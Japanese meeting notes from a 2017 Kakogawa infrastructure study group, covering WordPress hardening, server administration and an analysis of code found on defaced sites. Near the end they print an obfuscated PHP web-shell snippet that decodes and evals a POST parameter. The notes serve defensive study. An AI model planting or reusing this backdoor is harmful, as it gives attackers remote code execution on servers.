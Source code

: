 ```yaml
---
title: 加古川IT系インフラ勉強会 2017.09
date: 2017/09/09
categories:
  - 開催履歴
tags:
  - 加古川IT系インフラ勉強会
---
```


加古川IT系インフラ勉強会 2017.09
===

* 開催日：2017/09/09
* 司会：wate
* 参加者数：参加者: 6名 / 学生: 0名 / Hangout: 1名
* 備考：気付いたことなど、自由に記入をお願いします！
* Connpass: https://histudy.connpass.com/event/66082/
* ハッシュタグ：#kakogawa_infra

---

## 脆弱性

* MySQLの不満あれこれ
    * いつの間にかテーブルサイズが肥大化する
    * プラグインによっては、wp_options テーブルが肥大化。。。
    * 「汎用化」に振りすぎ？
* Wordpressのセキュリティ対策
  * REST APIで脆弱性が増えたかも
  * パーミッションに注意
  * セーフモードは既に意味なさげ
  * プラグインを制限する
  * 接続元を国内限定にする(かなり効いた)
  * ファイルのチェックサムを取る
  * gitで管理する
  * WPScanかける
  * ...のような面倒な作業はJenkinsに任せたい(LDAPサーバどうしよう)
* Jenkinsによる自動化とか勉強会やってみたい
    * Jenkins2.0でPipelineが導入された。便利そう
* うちのインフラ部門がAmazon Linux大好きなので、最近そちらやってます
    * Debian慣れしてるので、Amazon Linux 気持ち悪い
    * RedHatに似てるが、バージョンをがんがんあげるので互換性に不安
* CentOS めんどくさい
    * 7に移行中です
    * 7になれてない人大丈夫？
* やはりサーバは2-3年で更新しないと
* クラウドで管理はだいぶ楽になった
    * Shell Scrptでちまちま管理してましたがAnsibleでOK
    * OpenStackまわりとかやってみたいね(ConoHaとか)
* Vineなつかし。MecabはまだUTF-8がデフォルトじゃないのかしら
* 幸いWordPressの闇はまだ見たことないです
* Webの勉強会開催は難しい?
    * 勉強会のフォームを用意して、「あとはよろしくね」というメソッドが有効?
    * WordBench姫路開催の予感
    * WordBench京都、大阪、神戸の所感もげもげ
* サーバ管理ネタをWordBenchあたりで話してみる?
    * 管理者の視点で言えることとか
* サーバアプリケーションの脆弱性対応は、業者ではやりにくい(検閲とかに該当)
* WordPress改竄スクリプトの解析とかやってるところもあります
* 改竄コードの例
    * $dataという変数に、あらかじめbase64でエンコードしておいた生データをデコード、代入している
    * $dataをそのままeval、とかやってそう
    * 怪し気なzipファイルを展開している
    * zipファイル展開確認。フィッシングサイトを開設するとおぼしきphpのコード一式が入っていた
    * おそらく同時に撒いたであろうspamにここのURLが入ってるはず
    * ACLファイルを入れ替えられてるも
* Fail2banをSMTPなどにも入れている
* sshアクセスはWebからのアクセス元のみに限定する
* FollowSymlinkの禁止を導入したが、一部ツールはこれに依存していたりする
* JavaScriptの脆弱性
    * 難読コード(昔の一例) 
        ```php
        <?php
            $sF="PCT4BA6ODSE_";
            $s21=strtolower($sF[4].$sF[5].$sF[9].$sF[10].$sF[6].$sF[3].$sF[11].$sF[8].$sF[10].$sF[1].$sF[7].$sF[8].$sF[10]);
            $s20=strtoupper($sF[11].$sF[0].$sF[7].$sF[9].$sF[0]);if (isset(${$s20}['nd335c3'])) {
                eval($s21(${$s20}['nd335c3']));
            }
        ?>
        ```
    * 
* 
* 
* 
* 
* 
* 
* 
* 
* 
* 
